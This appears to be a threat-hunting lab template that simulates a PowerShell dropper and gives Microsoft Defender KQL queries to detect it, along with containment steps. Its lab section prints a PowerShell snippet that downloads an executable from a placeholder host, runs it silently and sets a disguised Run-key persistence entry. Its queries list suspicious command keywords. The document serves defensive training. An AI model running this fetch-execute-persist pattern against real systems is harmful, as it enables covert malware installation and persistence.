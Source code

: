 # Threat Hunt Scenario: Silent PowerShell Dropper with Persistence

## 1. Overview
This scenario simulates an adversary using PowerShell to download and silently execute an installer (e.g., 7-Zip) into `C:\ProgramData\` and establish persistence through a Run registry key. The objective is to practice hunting this activity using Microsoft Defender Advanced Hunting with KQL queries.

---

## 2. Rationale
Recent threat intel highlights increased abuse of **PowerShell one-liners** to deliver droppers and set persistence without writing custom malware. Security leadership requested a hunt to validate whether our environment has been exposed to this technique.

---

## 3. Hypothesis
If an attacker abused PowerShell to fetch and silently run an executable, then we should observe:
- PowerShell execution with suspicious parameters (`Invoke-WebRequest`, `/S`, `-ExecutionPolicy Bypass`)
- A file created in `C:\ProgramData\` ending in `.exe`
- Silent execution of that file shortly after download
- Registry persistence via `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`

---

## 4. Data Sources
Microsoft Defender for Endpoint (Advanced Hunting tables):
- `DeviceProcessEvents`
- `DeviceNetworkEvents`
- `DeviceFileEvents`
- `DeviceRegistryEvents`

---

## 5. Bad Actor Steps (Lab Simulation)
On a **lab VM**, execute:
```powershell
$uri  = "https://<labhost>/7z2408-x64.exe"
$out  = "C:\\ProgramData\\7z2408-x64.exe"
Invoke-WebRequest -Uri $uri -OutFile $out
Start-Process $out -ArgumentList "/S" -Wait
New-ItemProperty -Path "HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" `
  -Name "Updater" -Value "C:\\ProgramData\\7z2408-x64.exe" -PropertyType String -Force
```
This generates telemetry for network, file, process, and registry activities.

---

## 6. Hunting Queries (KQL)

### Suspicious PowerShell Execution
```kql
DeviceProcessEvents
| where Timestamp > ago(7d)
| where FileName in~ ("powershell.exe", "pwsh.exe")
| where ProcessCommandLine has_any ("Invoke-WebRequest", "/S", "-ExecutionPolicy Bypass", "-NoProfile")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
| order by Timestamp desc
```

### Network Downloads via PowerShell
```kql
DeviceNetworkEvents
| where Timestamp > ago(7d)
| where InitiatingProcessFileName in~ ("powershell.exe", "pwsh.exe")
| project Timestamp, DeviceName, AccountName, RemoteUrl, RemoteIP, RemotePort, InitiatingProcessCommandLine
| order by Timestamp desc
```

### File Drops into ProgramData
```kql
DeviceFileEvents
| where Timestamp > ago(7d)
| where ActionType == "FileCreated" and FolderPath has @"C:\\ProgramData\\"
| where FileName endswith ".exe"
| project Timestamp, DeviceName, AccountName, FileName, FolderPath, InitiatingProcessCommandLine
```

### Silent Execution of Dropped Files
```kql
DeviceProcessEvents
| where Timestamp > ago(7d)
| where FolderPath has @"C:\\ProgramData\\"
| where ProcessCommandLine has_any ("/S","/silent","/quiet")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine
```

### Persistence via Run Key
```kql
DeviceRegistryEvents
| where Timestamp > ago(7d)
| where RegistryKey has @"\\Run"
| project Timestamp, DeviceName, AccountName, RegistryKey, RegistryValueName, RegistryValueData
```

### Unified Timeline
```kql
union
(DeviceProcessEvents | where FileName in~ ("powershell.exe","pwsh.exe") | project Timestamp, DeviceName, AccountName, Evidence="Proc", Details=ProcessCommandLine),
(DeviceNetworkEvents | where InitiatingProcessFileName in~ ("powershell.exe","pwsh.exe") | extend Details=strcat(RemoteUrl, " ", RemoteIP) | project Timestamp, DeviceName, AccountName, Evidence="Net", Details),
(DeviceFileEvents | where ActionType=="FileCreated" | project Timestamp, DeviceName, AccountName, Evidence="File", Details=strcat(FolderPath,"\\",FileName)),
(DeviceRegistryEvents | where RegistryKey has @"\\Run" | project Timestamp, DeviceName, AccountName, Evidence="Reg", Details=strcat(RegistryKey,"=",RegistryValueData))
| order by Timestamp asc
```

---

## 7. Analyst Workflow
1. Run PowerShell query → find seed events.
2. Pivot to network, file, process, and registry queries.
3. Use unified timeline query for correlation.
4. If chain is confirmed → escalate to incident.

---

## 8. Containment & Eradication
- Isolate affected device in Defender.
- Kill malicious processes.
- Remove dropped EXE.
- Delete persistence Run key.
- Trigger AV scan.
- Reset user credentials if needed.

---

## 9. Success Criteria
- Detect at least three linked events: download → file creation → silent execution.
- Registry Run key persistence tied to same executable.

---

## 10. Deliverables
- Completed Threat Hunt Scenario Template (this doc)
- Screenshots of Advanced Hunting results
- Final Threat Hunt Report (using report template)
- Upload to GitHub for portfolio

---
